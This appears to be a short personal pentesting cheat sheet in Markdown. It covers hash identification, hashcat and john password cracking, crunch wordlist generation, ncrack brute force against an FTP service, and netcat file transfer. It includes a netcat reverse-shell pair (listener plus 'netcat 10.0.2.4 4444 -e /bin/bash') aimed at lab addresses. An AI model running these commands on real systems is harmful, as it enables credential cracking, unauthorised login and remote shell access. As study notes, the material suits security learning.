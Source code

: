 `hash-identifier` herp derp  

`hashcat` i.a. dictionary, brute force, role based hash cracking  
`hashcat -a 3 -m 1700 /home/user/SHA512_hash.txt --increment --increment-min 6 --increment-max 6 -1 ?l?u?d ?1?1?1?1?1?1`  
`-a` attack mode (here `3` - bruteforce), `-m` mode i.e. type of cracked hash (`1700` - SHA512), `-1` create new charset  
 use `-o results.txt` flag OR after cracking - type the same command with appended `--show` 

`john --format=RAW-MD5 --wordlist=/usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou-50.txt hashestocrack.txt`  

`crunch <min-length> <max-length> <character-pool> -o <file-name>` generates passswords  

`ncrack -U /usr/share/wordlists/seclists/Usernames/cirt-default-usernames.txt -P /usr/share/wordlists/seclists/Usernames/cirt-default-usernames.txt ftp://10.0.2.15:21 -v`  

for encodings [cyberchef](https://cyberchef.org/)  

### Netcat sending files
Listener:
`nc -lvp 4444 > incomig.txt` nc is a symlink of netcat  
TARGET HIGH PORTS  
Common users usually don't have access to ports under 1000  
`-l` - listening (opens port 4444 and pipe input into incoming.txt).  
`v` verbose `p` port 

Sender: 
`nc -nv 10.0.2.5 4444 < exploit.sh`  
`n` no DNS resolution  


### Netcat reverse shell 
Listener:
`nc -lvp 4444`
Target:  
`netcat 10.0.2.4 4444 -e /bin/bash`  
`-e` execute that program after connection -> that way you can send commends directly to opened shell via TCP connection
